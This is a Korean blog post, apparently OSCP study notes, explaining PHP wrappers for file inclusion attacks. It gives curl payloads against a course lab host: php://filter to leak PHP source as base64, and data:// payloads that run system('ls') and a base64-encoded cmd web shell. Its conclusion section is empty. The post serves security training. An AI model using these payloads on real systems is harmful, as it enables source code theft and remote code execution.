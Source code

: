 ```yaml
---
layout: post
title: 9.2.2. PHP Wrappers
subtitle: 정보누출, RCE 취약점에 가까운 개념들
author: 마준영
categories: oscp
tags:
  - oscp
---
```

## 9.2.2. PHP Wrappers
## 1. PHP 래퍼(Wrappers)란?
	1. PHP는 다양한 프로토콜 래퍼(`php://`, `data://` 등)를 제공하여 파일 포함(File Inclusion) 취약점을 활용할 수 있게 합니다.
	2. 대표적으로 `php://filter`와 `data://` 래퍼를 사용하여 콘텐츠 필터링 또는 코드 실행을 시도할 수 있습니다.
2. `php://filter` 래퍼 활용
	1. `php://filter`는 파일 내용을 인코딩하거나, 실행 대신 내용을 표시하는 데 사용됩니다.
	2. 예를 들어, PHP 파일을 Base64로 인코딩한 상태로 출력하여 소스 코드를 분석할 수 있습니다.
	3. 이는 파일 포함(Local File Inclusion, LFI) 취약점과 결합하여 웹 애플리케이션의 PHP 파일 소스를 노출시킬 수 있습니다.
3. 예제
	1. base64 인코딩 없이 파일 내용 출력 (PHP가 실행되므로 결과에 소스가 보이지 않음)
	   ```shell
	   curl http://mountaindesserts.com/meteor/index.php?page=php://filter/resource=admin.php
```
	2. base64 인코딩 으로 파일 내용 출력 (출력된 Base64 데이터를 디코딩하면 PHP소스 확인 가능.)
	   ```shell
	   curl http://mountaindesserts.com/meteor/index.php?page=php://filter/convert.base64-encode/resource=admin.php
```

1. `data://` 래퍼 활용
	1. `data://`는 데이터를 텍스트나 Base64 형식으로 직접 실행 코드에 포함할 수 있습니다.
	2. 이는 로컬 파일을 오염시키지 않고 코드 실행을 가능하게 합니다.
	3. 서버에 있는 php 파일을 변조하기 어려울때 사용하면 RCE를 할 수 있다.
2. 예제: `data://`로 코드 실행
	1. URL-인코딩된 PHP 코드 포함 및 실행
	   ```shell
	   curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain,<?php%20echo%20system('ls');?>"
```
	2. Base64 인코딩을 통한 실행
	   ```shell
	   echo -n '<?php echo system($_GET["cmd"]);?>' | base64
curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=ls"

```

## 제한 사항 및 우회 방법
- 기본 PHP 설정에서는 `data://` 래퍼가 작동하지 않습니다.
- 이를 활성화하려면 `allow_url_include` 설정이 필요합니다.
- 이러한 래퍼를 활용해 파일 필터링을 우회하거나, 취약점을 통해 민감한 정보를 획득 및 악용할 수 있습니다.

## 결론

